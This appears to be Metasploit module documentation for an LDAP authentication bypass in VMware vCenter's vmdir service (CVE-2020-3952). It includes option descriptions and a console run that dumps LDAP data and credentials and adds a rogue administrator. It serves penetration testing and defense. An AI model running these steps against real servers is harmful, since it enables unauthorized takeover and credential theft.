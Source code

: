 ## Vulnerable Application

### Description

This module bypasses LDAP authentication in VMware vCenter Server's
vmdir service to add an arbitrary administrator user. Version 6.7
prior to the 6.7U3f update is vulnerable, only if upgraded from a
previous release line, such as 6.0 or 6.5.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Add

Add an admin user to the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USERNAME

Set this to the username for the new admin user.

### PASSWORD

Set this to the password for the new admin user.

### ConnectTimeout

You may configure the timeout for LDAP connects if necessary. The
default is 10.0 seconds and should be more than sufficient.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf5 > use auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BASE_DN                    no        LDAP base DN if you already have it
   PASSWORD                   no        Password of admin user to add
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     389              yes       The target port
   USERNAME                   no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set username msfadmin
username => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set password msfadmin
password => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against [redacted]

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:389
[+] [redacted]:389 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002255_default_[redacted]_VMwarevCenterS_975097.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Bypassing LDAP auth in vmdir service at [redacted]:389
[*] Adding admin user msfadmin with password msfadmin
[+] Added user msfadmin, so auth bypass was successful!
[+] Added user msfadmin to admin group
[*] Auxiliary module execution completed
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) >
```
